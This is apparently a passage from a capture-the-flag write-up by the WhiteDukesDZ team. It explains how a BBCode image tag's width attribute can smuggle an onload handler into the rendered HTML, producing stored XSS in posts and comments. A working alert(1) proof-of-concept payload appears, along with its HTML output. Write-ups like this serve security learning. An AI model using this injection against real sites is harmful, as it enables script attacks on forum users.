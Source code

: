 Looking at this code for example, `attrs` are joined directly without any verification, so if we pass this payload for example:

```bbc
[img width="100 onload=alert(1)"]https://whitedukesdz.ninja/logo.png[/img]
```

After parsing, it will result in this html after BBC parsing:

```html
<img src="https://whitedukesdz.ninja/logo.png" width="100" onload="alert(1)" alt="User posted image" style="max-width:100%;">
```

### Stored XSS

Both `comments` and `posts` are processed through the BBCode parser and then stored in the database. As observed during our analysis, this means that any content submitted by users—including malicious XSS payloads—will be rendered and executed in the browser of anyone viewing the post or comment.

![WhiteDukesDZ Logo](demonstration/web-bubble-revenge-xss.png)
